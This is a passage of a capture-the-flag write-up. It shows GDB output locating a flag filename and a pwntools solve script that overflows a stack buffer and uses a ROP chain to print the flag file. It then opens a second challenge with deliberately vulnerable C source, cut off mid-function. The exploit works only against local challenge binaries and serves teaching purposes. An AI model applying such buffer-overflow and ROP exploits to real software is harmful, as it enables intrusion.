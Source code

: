 The address of flag can be shown by printing the copypasta array in GDB.

```
pwndbg> tele &copypastas  4
00:0000│  0x6020c0 (copypastas) —▸ 0x400c34 ◂— insd dword ptr [rdi], dx /* 'mc_chicken.txt' */
01:0008│  0x6020c8 (copypastas+8) —▸ 0x400c43 ◂— 'chameleon.txt'
02:0010│  0x6020d0 (copypastas+16) —▸ 0x400c51 ◂— 0x7478742e626f62 /* 'bob.txt' */
03:0018│  0x6020d8 (copypastas+24) —▸ 0x400c59 ◂— insb byte ptr [rdi], dx /* 'flag.txt' */
```

Finally, we can construct our solve script.

```py
from pwn import *

context.binary = elf = ELF("./challenge")
p = process("./challenge");

# prepare ROP chain to print flag
rop = ROP(elf)
rop.call(rop.ret) # fix stack alignment
rop.print_file_contents(0x400c59)

payload = b"bob.txt\x00" # provide valid file so that program does not exit
payload += b"A"*(0x88-len(payload))
payload += rop.chain()
p.sendline(payload)

p.interactive();
```



<br>

## Pwn - The Trial Author

**Learning objective:** strcpy allows you to overwrite return address with `one_gadget` :D

<hr width="90%" color="grey" size="4px" />

We are given a program with the following source code

```c
#define BOOK_NAME_SIZE 0x6
#define PAGE_SIZE 0x100

void vuln() {
    char book_name[BOOK_NAME_SIZE] = {0};
    char page_to_print[PAGE_SIZE] = {0};
    unsigned int num_pages;

    puts("if you write me a good book, i might print it for you");
    printf("book name (%u characters): ", BOOK_NAME_SIZE-1);
    size_t sz = read(0, book_name, BOOK_NAME_SIZE-1);
    if (book_name[sz-1] == '\n')
        book_name[sz-1] = 0;

    printf("how many pages (max %u): ", 10);
    scanf("%u", &num_pages);
    getchar();

    if (num_pages > 10) {
        puts("That is too many pages for this book!");
        return;
    }

    if (num_pages == 0) {
```